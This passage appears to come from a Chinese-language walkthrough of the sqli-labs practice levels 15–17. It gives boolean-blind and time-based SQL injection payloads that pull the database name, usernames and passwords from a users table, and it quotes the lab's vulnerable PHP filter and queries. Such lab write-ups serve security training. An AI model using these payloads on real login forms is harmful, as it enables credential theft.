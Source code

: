 `uname=admin' and mid(database(),1,8)='security'#&passwd=a&submit=Submit`

`uname=admin' and mid((select password from security.users where id=1),1,1)='a'#&passwd=a&submit=Submit`

***

**Less-16**

页面标题提示为Time-Based

一样没有报错回显，经测试为("$id")闭合

构造payload：`uname=admin") and if(ascii(mid((select username from security.users where id=1),1,1))=ascii('D'),sleep(5),1)#&passwd=a&submit=Submit`

***

**Less-17**

进入页面提示为PASSWORD RESET，为重置密码界面，从密码框尝试注入

这里对于username表单进行了过滤：
```javascript
function check_input($value)
	{
	if(!empty($value))
		{
		// truncation (see comments)
		$value = substr($value,0,15);
		}

		// Stripslashes if magic quotes enabled
		if (get_magic_quotes_gpc())
			{
			$value = stripslashes($value);
			}

		// Quote if not a number
		if (!ctype_digit($value))
			{
			$value = "'" . mysql_real_escape_string($value) . "'";
			}
		
	else
		{
		$value = intval($value);
		}
	return $value;
	}
```

为单引号闭合

提交的sql语句为`@$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";`
`$update="UPDATE users SET password = '$passwd' WHERE username='$row1'";`
